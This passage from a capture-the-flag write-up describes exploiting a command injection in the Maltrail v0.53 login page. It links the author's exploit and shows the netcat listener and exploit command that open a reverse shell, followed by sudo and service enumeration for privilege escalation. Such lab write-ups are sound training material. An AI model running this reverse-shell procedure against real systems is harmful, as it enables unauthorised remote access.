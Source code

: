 While I was researching about Maltrail CMS, I found an exploit on Maltrail v0.53 which was a command injection, and it utilizes a vulnerability in `/login` page where the username field is directly feede to `subprocess.check_output()` without any sanitization, so we can perform a malicious command injection which can give us a reverse shell. I developed my own exploit and avoided the github exploit, I just needed to make few changes and I am already good with python so I decided to take a shot and writing a new exploit for this vulnerability from my understanding. 

**Link:** [Maltrail_Exploit](https://github.com/Z3R0-0x30/Maltrail_0.53_RCE_Exploit)

**Commands:**
- `nc -lnvp 1337`
- `python3 zero_maltrail_exploit.py 10.10.14.15 1337 http://10.10.11.224:55555/0x30`

![](images-sau/16.png)

We were able to exploit the vulnerability in Maltrail login functionality and get a reverse shell on port 1337, and through that we were also able to access the user flag.

---

## Privilege Escalation - Being the root

We are already successful in compromising the system and getting a shell, but many a times the initial access you get is a low-privileged user. In this stage, we will try to elevate our privileges to the root user (admin) of Linux file system, and this user is like the God of system, if anyone is able to compromise the root account then he completely owns the system without any restrictions.

### SUDO binaries misconfiguration

**Command:**
- `sudo -l`
- `systemctl status trail.service`
- `ls -al /etc/systemd/system/trail.service`
- `find / -name server.py 2>/dev/null`
- `ls -al /opt/maltrail/server.py`
